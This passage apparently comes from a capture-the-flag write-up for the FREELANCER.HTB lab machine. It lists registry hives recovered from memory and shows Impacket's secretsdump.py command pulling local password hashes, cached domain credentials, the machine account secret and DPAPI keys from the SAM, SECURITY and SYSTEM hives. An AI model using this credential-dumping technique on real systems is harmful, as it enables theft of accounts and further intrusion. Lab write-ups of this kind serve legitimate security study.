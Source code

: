 `hive_files` has files that represent what can be recovered from of the hive files:

```

root@hacky[/mnt/registry]# ls hive_files/
0xffffd30679c0e000-unknown-unknown.reghive                                              0xffffd3067db43000-BBI-A_{ae450ff4-3002-4d4d-921c-fd354d63ec8b}.reghive
0xffffd30679c46000-SYSTEM-MACHINE_SYSTEM.reghive                                        0xffffd3067db53000-NTUSERDAT-USER_S-1-5-19.reghive
0xffffd30679cdc000-unknown-MACHINE_HARDWARE.reghive                                     0xffffd3067dd5e000-ActivationStoredat-A_{D65833F6-A688-4A68-A28F-F59183BDFADA}.reghive
0xffffd3067b257000-settingsdat-A_{c94cb844-4804-8507-e708-439a8873b610}.reghive         0xffffd3067e30e000-UsrClassdat-USER_S-1-5-21-3542429192-2036945976-3483670807-1121_Classes.reghive
0xffffd3067b261000-ActivationStoredat-A_{23F7AFEB-1A41-4BD7-9168-EA663F1D9A7D}.reghive  0xffffd3067ec26000-Amcachehve-A_{da3518a3-bbc6-1dba-206b-2755382f1364}.reghive
0xffffd3067b514000-BCD-MACHINE_BCD00000000.reghive                                      0xffffd3067ec39000-ntuserdat-USER_S-1-5-21-3542429192-2036945976-3483670807-1121.reghive
0xffffd3067b516000-SOFTWARE-MACHINE_SOFTWARE.reghive                                    0xffffd3067ec58000-settingsdat-A_{8a28242f-95cc-f96a-239c-d8a872afe4cc}.reghive
0xffffd3067d7e9000-DEFAULT-USER_.DEFAULT.reghive                                        0xffffd3067f097000-DRIVERS-MACHINE_DRIVERS.reghive
0xffffd3067d7f0000-SECURITY-MACHINE_SECURITY.reghive                                    0xffffd3067f91b000-UsrClassdat-USER_S-1-5-21-3542429192-2036945976-3483670807-500_Classes.reghive
0xffffd3067d935000-SAM-MACHINE_SAM.reghive                                              0xffffd3067f9e7000-ntuserdat-USER_S-1-5-21-3542429192-2036945976-3483670807-500.reghive
0xffffd3067d9c4000-NTUSERDAT-USER_S-1-5-20.reghive

```

This is enough to `secretsdump.py`:

```

root@hacky[/mnt/registry/hive_files]# secretsdump.py -sam 0xffffd3067d935000-SAM-MACHINE_SAM.reghive -security 0xffffd3067d7f0000-SECURITY-MACHINE_SECURITY.reghive -system 0xffffd30679c46000-SYSTEM-MACHINE_SYSTEM.reghive local
Impacket v0.10.1.dev1+20230216.13520.d4c06e7f - Copyright 2022 Fortra

[*] Target system bootKey: 0xaeb5f8f068bbe8789b87bf985e129382
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:725180474a181356e53f4fe3dffac527:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:04fc56dd3ee3165e966ed04ea791d7a7:::
[*] Dumping cached domain logon information (domain/username:hash)
FREELANCER.HTB/Administrator:$DCC2$10240#Administrator#67a0c0f193abd932b55fb8916692c361
FREELANCER.HTB/lorra199:$DCC2$10240#lorra199#7ce808b78e75a5747135cf53dc6ac3b1
FREELANCER.HTB/liza.kazanof:$DCC2$10240#liza.kazanof#ecd6e532224ccad2abcf2369ccb8b679
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:a680a4af30e045066419c6f52c073d738241fa9d1cff591b951535cff5320b109e65220c1c9e4fa891c9d1ee22e990c4766b3eb63fb3e2da67ebd19830d45c0ba4e6e6df93180c0a7449750655edd78eb848f757689a6889f3f8f7f6cf53e1196a528a7cd105a2eccefb2a17ae5aebf84902e3266bbc5db6e371627bb0828c2a364cb01119cf3d2c70d920328c814cad07f2b516143d86d0e88ef1504067815ed70e9ccb861f57394d94ba9f77198e9d76ecadf8cdb1afda48b81f81d84ac62530389cb64d412b784f0f733551a62ec0862ac2fb261b43d79990d4e2bfbf4d7d4eeb90ccd7dc9b482028c2143c5a6010
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:1003ddfa0a470017188b719e1eaae709
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xcf1bc407d272ade7e781f17f6f3a3fc2b82d16bc
dpapi_userkey:0x6d210ab98889fac8829a1526a5d6a2f76f8f9d53
[*] NL$KM 
 0000   63 4D 9D 4C 85 EF 33 FF  A5 E1 4D E2 DC A1 20 75   cM.L..3...M... u
 0010   D2 20 EA A9 BC E0 DB 7D  BE 77 E9 BE 6E AD 47 EC   . .....}.w..n.G.
 0020   26 02 E1 F6 BF F5 C5 CC  F9 D6 7A 16 49 1C 43 C5   &.........z.I.C.
 0030   77 6D E0 A8 C6 24 15 36  BF 27 49 96 19 B9 63 20   wm...$.6.'I...c 
```